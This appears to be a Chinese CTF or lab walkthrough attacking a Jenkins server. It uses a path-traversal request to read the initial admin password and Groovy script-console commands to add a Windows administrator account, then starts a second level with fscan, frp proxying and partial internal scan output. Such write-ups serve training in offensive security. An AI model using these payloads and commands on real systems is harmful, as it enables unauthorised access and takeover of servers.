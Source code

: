 在wp-config.php文件中发现数据库账号密码，尝试连接不成功，应该是不允许其他主机连接

`tools/content-log.php`​下发现了存在任意文件读取漏洞

根据题目描述我们获取到了Jekins根目录为`C:\ProgramData\Jenkins\.jenkins`​，然后我们这里搜索过后可以发现初始密码路径

读取`C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword`​

```bash
http://39.99.137.59/tools/content-log.php?logfile=../../../../../../../../../ProgramData/Jenkins/.jenkins/secrets/initialAdminPassword
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114135458-529m7u2.png?imageSlim)​

访问http://39.99.137.59:8080/，进行登录

```bash
admin/510235cf43f14e83b88a9f144199655b
```

发现groovy脚本执行接口

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114135617-x2w6cfs.png?imageSlim)​

进行添加用户

```bash
println "net user ttest Test@123 /add".execute().text
println "net localgroup administrators ttest /add".execute().text
```

rdp连上去，读取flag01

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114135855-hlmc931.png?imageSlim)​

### 第二关

关卡剧情：管理员为 Jenkins 配置了 Gitlab，请尝试获取 Gitlab API Token，并最终获取 Gitlab 中的敏感仓库。获取敏感信息后，尝试连接至 Oracle 数据库，并获取 ORACLE 服务器控制权限。

上传fscan，frp，扫内网，搭代理

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250114140811-4lotfex.png?imageSlim)​

fscan

```bash
C:\Users\ttest\Downloads>fscan.exe -h 172.22.14.7/24

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 1.8.4
start infoscan
(icmp) Target 172.22.14.7     is alive
(icmp) Target 172.22.14.11    is alive
(icmp) Target 172.22.14.16    is alive
(icmp) Target 172.22.14.31    is alive
(icmp) Target 172.22.14.46    is alive
[*] Icmp alive hosts len is: 5
172.22.14.11:445 open
172.22.14.7:445 open
172.22.14.7:135 open
172.22.14.46:139 open
172.22.14.31:139 open
172.22.14.11:139 open
172.22.14.46:135 open
```